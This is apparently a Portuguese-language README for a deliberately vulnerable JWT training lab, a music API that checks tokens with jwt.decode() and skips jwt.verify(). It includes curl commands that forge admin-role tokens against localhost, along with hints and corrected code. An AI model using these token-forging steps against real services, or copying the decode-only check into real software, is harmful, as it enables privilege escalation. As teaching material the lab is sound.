 # 🚨 JWTuê - Desafio de Segurança JWT

## 🎯 O Desafio

Este é um desafio de desenvolvimento seguro que demonstra uma vulnerabilidade real de **verificação de assinatura JWT** em uma API Node.js. O cenário simula um serviço de autenticação que implementou um sistema de tokens JWT para controle de acesso, mas falhou na verificação adequada das assinaturas.

### Impacto

- **Elevação de Privilégios**: Usuários comuns podem se passar por administradores
- **Acesso Não Autorizado**: Tokens falsificados permitem acesso a recursos restritos
- **Bypass de Autenticação**: Controle de acesso completamente comprometido
- **Violação de Integridade**: Dados podem ser manipulados sem detecção

### Narrativa

Você é um pentester contratado para avaliar a segurança de uma nova API de músicas. O cliente suspeita que há uma vulnerabilidade no sistema de autenticação que pode permitir acesso não autorizado. Sua missão é identificar e explorar essa falha para demonstrar o impacto real.

### 📋 Sua Missão

1. **Reconhecimento**: Entender como a autenticação funciona
2. **Identificação**: Descobrir a vulnerabilidade de verificação JWT
3. **Exploração**: Criar tokens falsificados com diferentes roles
4. **Elevação de Privilégios**: Acessar recursos restritos como admin
5. **Documentação**: Registrar o processo e impacto

## 🚀 Começando

### Pré-requisitos

- Docker
- curl

### 1. Preparar o Ambiente

#### Opção 1: Setup Automático (Recomendado)

```bash
# Clonar o repositório
git clone https://github.com/seu_usuario/jwtue.git
cd jwtue

# Build da imagem Docker
docker build -t jwtue-security .

# Executar o container
docker run -d -p 3000:3000 -p 3001:3001 --name jwtue-test jwtue-security
```

<details>
<summary>Opção 2: Setup Local</summary>

```bash
# Clonar o repositório
git clone https://github.com/seu_usuario/jwtue.git
cd jwtue

# Instalar dependências do backend
cd server && npm install

# Instalar dependências do frontend
cd ../client && npm install

# Executar backend (terminal 1)
cd ../server && npm start

# Executar frontend (terminal 2)
cd ../client && npm run dev
```

</details>

A aplicação estará disponível em:

- **Frontend**: `http://localhost:3000`
- **Backend API**: `http://localhost:3001`

### 2. Endpoints Disponíveis

- `POST /api/login` - Autenticação de usuário
- `GET /api/songs` - Listar músicas (requer autenticação)

### 3. Usuários de Teste

- **Admin**: `admin` / `admin123`
- **User**: `user` / `user123`

## 🔍 Explorando como um Pentester

### Teste Inicial

Vamos começar com uma autenticação normal para entender o comportamento da API:

```bash
# Login como usuário comum
curl -X POST http://localhost:3001/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user","password":"user123"}'
```

### Análise do Token

O token retornado é um JWT. Vamos decodificá-lo para entender sua estrutura:

Usei i site jwt.io

### 🔎 O que Procurar

Analise o token procurando por:

- Claims de usuário (userId, username, role)
- Timestamp de expiração (exp)
- Estrutura do payload
- Possíveis campos manipuláveis

### Teste de Elevação de Privilégios

Agora vamos tentar criar um token falsificado com role de admin:

```bash
# Criar payload com role admin
PAYLOAD='{"userId":1,"username":"user","role":"admin","iat":1752705422,"exp":1752709022}'

# Codificar em base64
echo -n $PAYLOAD | base64

# Criar token falsificado (header.payload.signature_falsa)
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.$(echo -n $PAYLOAD | base64).falsified_signature"
```

### Teste de Acesso Não Autorizado

Use o token falsificado para acessar recursos restritos:

```bash
# Tentar acessar músicas com token falsificado
curl -X GET http://localhost:3001/api/songs \
  -H "Authorization: Bearer SEU_TOKEN_FALSIFICADO"
```

## 💡 Dicas para a Correção

<details>
  <summary>Dica Nível 1: Onde está o problema?</summary>
  A vulnerabilidade está na função `verifyToken` no arquivo `server/index.js`. Examine como o token é validado e qual método está sendo usado para decodificação.
</details>

<details>
  <summary>Dica Nível 2: Qual é a diferença entre os métodos?</summary>
  Compare `jwt.decode()` com `jwt.verify()`. O primeiro apenas decodifica o token, enquanto o segundo verifica tanto a estrutura quanto a assinatura digital usando a chave secreta.
</details>

<details>
  <summary>Dica Nível 3: Por que a assinatura é importante?</summary>
  A assinatura JWT garante que o token não foi modificado. Sem verificação da assinatura, qualquer pessoa pode criar tokens válidos com qualquer payload, incluindo roles elevados.
</details>

## ✅ Soluções Possíveis

<details>
  <summary>Solução 1: Corrigindo a Verificação JWT</summary>

  A correção principal é substituir `jwt.decode()` por `jwt.verify()` para garantir que a assinatura seja validada.

  **Correção:**

  ```javascript
  // ANTES (vulnerável)
  const decoded = jwt.decode(token);
  
  // DEPOIS (seguro)
  const decoded = jwt.verify(token, JWT_SECRET);
  ```

  **Por quê?** O `jwt.verify()` verifica automaticamente:

- Estrutura válida do token
- Assinatura digital correta
- Expiração do token
- Outros claims de segurança

</details>

<details>
  <summary>Solução 2: Implementação Robusta de Segurança</summary>

  Além da correção básica, implemente medidas adicionais de segurança:

  **Melhorias:**

  ```javascript
  // Verificação com opções de segurança
  const decoded = jwt.verify(token, JWT_SECRET, {
    algorithms: ['HS256'], // Restringir algoritmos permitidos
    issuer: 'jwtue-api',   // Verificar issuer
    audience: 'jwtue-app'  // Verificar audience
  });
  
  // Validação adicional de claims
  if (!decoded.role || !['user', 'admin'].includes(decoded.role)) {
    throw new Error('Role inválido');
  }
  ```
  
  **Benefícios:**

- Previne ataques de algoritmo confuso
- Validação rigorosa de claims
- Logs de auditoria para tentativas de bypass
- Segurança em camadas

</details>

## 🎯 Próximos Passos

1. Experimente diferentes payloads de token
2. Teste com diferentes algoritmos de assinatura
3. Analise como a vulnerabilidade se comporta com tokens expirados
4. Implemente as correções sem quebrar o funcionamento da API
5. Compare o comportamento antes e depois da correção
6. **Desafio Extra**: Implemente rate limiting e rotação de chaves

## 🔧 Ferramentas Úteis

### Decodificação JWT

```bash
# Decodificar token online
echo "SEU_TOKEN" | cut -d'.' -f2 | base64 -d

# Usar jwt.io para análise visual
# https://jwt.io/
```

### Criação de Tokens Falsificados

```bash
# Gerar payload base64
echo -n '{"role":"admin"}' | base64

# Criar token manualmente
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.PAYLOAD_BASE64.SIGNATURE"
```

## ⚠️ Aviso Importante

**ATENÇÃO**: Este projeto é **APENAS para fins educacionais**. A vulnerabilidade foi intencionalmente implementada para demonstrar conceitos de segurança JWT. Nunca use este código em produção ou em sistemas reais.

## 📚 Recursos Adicionais

- [JWT.io](https://jwt.io/) - Ferramenta para debug e análise de JWT
- [RFC 7519](https://tools.ietf.org/html/rfc7519) - Especificação oficial do JWT
- [OWASP JWT Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_Cheat_Sheet_for_Java.html)
- [Node.js jsonwebtoken](https://github.com/auth0/node-jsonwebtoken) - Documentação da biblioteca

## 🤝 Contribuindo

Contribuições são bem-vindas! Se você encontrou uma nova técnica de exploração ou tem sugestões de melhorias, abra uma issue ou pull request.

## 📄 Licença

Este projeto está licenciado sob a MIT License - veja o arquivo [LICENSE](LICENSE) para detalhes.

